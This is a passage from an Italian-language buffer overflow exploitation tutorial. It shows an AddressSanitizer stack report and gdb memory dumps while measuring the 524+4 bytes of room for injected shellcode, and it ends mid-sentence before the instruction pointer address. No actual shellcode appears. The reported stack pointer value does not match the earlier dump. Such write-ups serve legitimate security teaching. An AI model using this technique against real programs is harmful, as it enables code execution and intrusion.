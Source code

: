 ```
  0x3ffffa20: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x3ffffa30: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x3ffffa40: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x3ffffa50: 00 00 00 00 00 00 00 00 00 00 00[f2]f2 f2 f2 f2
  0x3ffffa60: f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f8 f8 f8 f8
  0x3ffffa70: f8 f8 f8 f8 f8 f8 f8 f3 f3 f3 f3 f3 00 00 00 00
  0x3ffffa80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x3ffffa90: 00 00 00 00 00 00 00 00 00 00 00 00 f1 f1 00 00
  0x3ffffaa0: f2 f2 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
  Shadow gap:              cc
==131==ABORTING
```

## Construction
A questo punto a seguito dell'analisi manuale sappiamo che abbiamo la possibilità di utilizzare `524+4` bytes per initettare il nostro `Shellcode`.

Visualizzando lo stato dello stack tramite il seguente comando `x/200x $esp-600`
che significa:
- fammi vedere 200 indirizzi in formato hex partendo da `$esp-600`, infatti il valore di `$esp` risulta essere ( ricordandoci che stack cresce verso il basso ) otteniamo:
```
gdb-peda$ x/200x $esp-600
0xffffd3a8:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd3b8:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd3c8:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd3d8:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd3e8:     0x00000000      0x00000000      0x41414141      0x41414141
0xffffd3f8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd408:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd418:     0x41414141      0x41414141      0x41414141      0x41414141
[...]
0xffffd5b8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5f8:     0x41414141      0x42424242      0x00000000      0xffffd750
0xffffd608:     0xffffd63c      0xf7ffdc44    
```
Quindi sappiamo che l'indirizzo e il valore dello `Stack Pointer ESP` risultano essere:
```
(gdb) x/x $esp
0xffffcb30:     0x00000000
```
Di conseguenza che l'indirizzo e il valore dell' `Instruction Pointer EIP` risultano essere: